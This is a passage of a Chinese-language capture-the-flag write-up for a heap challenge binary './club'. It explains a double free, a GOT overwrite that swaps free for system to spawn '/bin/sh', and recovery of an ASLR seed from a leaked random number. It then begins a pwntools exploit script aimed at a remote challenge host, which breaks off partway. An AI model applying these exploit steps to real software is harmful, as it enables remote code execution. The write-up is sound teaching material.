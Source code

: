 4. leave the payload into box 4(big box)
5. double free normal box, 现在big box的指针指向little box的指针的地址
6. show message big box,获取"/bin/sh"的地址
7. leave message to big box: bin_sh_addr + '\x00\x00' + p64(p_addr+ displ_to_free) + bin_sh_addr + '\x00\x00'
   ​                                            
    little box                              small 
   box                                normal box
   ​    此时p_addr+ displ_to_free是free的GOT表地址，这是个啥呢？其实就类似于windows下的IAT表，里面的内容是free函数的函数指针。我们这样就可以读取small box的内容，从而获取free函数的地址，我们要他干嘛？因为libc有ASLR，我们需要先获取free地址，然后才能计算出system的地址。
8. show message in small box, 计算system地址
9. leave message in small box，把free替换成system
  10.
   delete normal 
  box，这时free已经是system了，所以free(normal_box)实际上是system(normal_box)，而normal 
  box中实际上是"/bin/sh"(如步骤7)，所以system("/bin/sh")，get shell！

还有，这个./club也是有ASLR的，所以p_addr的地址不能直接得到，我们逆向一下这个程序的话，发现猜随机数可以获得seed地址，从而可以计算出p_addr。
这个随机数就比较简单了，第一次我们猜错，他会告诉我们第一次的随机数rand()的值，拿这个可以逆推出seed，因为seed是seed的地址取低32位，会有低12位是固定的，所以很容易穷举出来，我是弄了个json。。

```Python
import json
import os

from pwn import *
from subprocess import Popen, PIPE

g_local = True

if g_local:
	sh=process("./club")
	#raw_input("ida has attch? Press any key for continue...")
else:
	sh=remote("123.206.22.95",8888)

def getPrevNum(str):
	i = 0
	while (i < len(str)):
		if (str[i] < '0' or str[i] > '9'):#not digit
			break
		i = i + 1
	return str[0:i]

def get_seed(first_rand):
	f = open("rand_to_seed.json")
	to_seed = json.load(f)
	seed = to_seed[first_rand]
	return seed

def get_scd_rand_from_seed(seed):
	pipe = os.popen( "./get_scd_rand " + str(seed))
	scd_rand = pipe.read()
	pipe.close()
	return int(scd_rand)

def get_scd_rand(first_rand):
	return get_scd_rand_from_seed(get_seed(str(first_rand)))

def six_ops():
#pre: init state, post: ops input
	global sh
	sh.recvuntil("6) exit\n> ")

def get_base_addr():
```